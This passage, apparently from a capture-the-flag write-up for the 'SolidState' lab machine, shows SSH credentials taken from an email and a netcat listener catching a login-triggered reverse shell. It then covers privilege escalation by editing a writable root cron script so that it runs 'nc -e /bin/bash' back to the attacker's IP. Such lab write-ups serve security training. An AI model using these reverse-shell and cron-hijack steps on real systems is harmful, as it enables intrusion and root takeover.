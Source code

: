 
      Dear Mindy,


      Here are your ssh credentials to access the system. Remember to reset your password after your first login.
      Your access is restricted at the moment, feel free to ask your supervisor to add any commands you need to your path.

      username: mindy
      pass: P@55W0rd1!2@

      Respectfully,
      James


4. We got creds for mindy:P@55W0rd1!2@, log in with SSH to trigger the expliot reverse shell.

  [p3:~]$ nc -lvnp 4488
    listening on [any] 4488 ...
    connect to [10.10.14.6] from (UNKNOWN) [10.10.10.51] 37728
    $ whoami
      mindy

The shell seems to trigger as the user whom logged in, however Mindys default shell is '/bin/rbash' - a restricted shell where
the user can't execute anything. With the reverse exploit, we are able to spawn a normal /bin/bash shell.

  mindy@solidstate:~$ cat user.txt
    0510e71c2e8c9cb333b36a38080d0dc2


██████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████

   ██████╗  ██████╗  ██████╗ ████████╗
   ██╔══██╗██╔═══██╗██╔═══██╗╚══██╔══╝
   ██████╔╝██║   ██║██║   ██║   ██║
   ██╔══██╗██║   ██║██║   ██║   ██║
   ██║  ██║╚██████╔╝╚██████╔╝   ██║
   ╚═╝  ╚═╝ ╚═════╝  ╚═════╝    ╚═╝


1. Enumerating the box we find a /opt/tmp.py, a writable script, owned by root, that cleans /tmp/. By looking at the code
   one would assume this is ran automatically and regularly. Verify this by creating a file in /tmp and wait.

   Modify the code, setup a listener, and wait (a few minutes) for a root shell.
   NOTE: You can verify your shell syntax by running 'python tmp.py' and see if you get the reverse as user mindy.

  ${debian_chroot:+($debian_chroot)}mindy@solidstate:/opt$ cat tmp.py
  #!/usr/bin/env python
  import os
  import sys
  try:
       os.system('nc -e /bin/bash 10.10.14.6 4499')
  except:
       sys.exit()
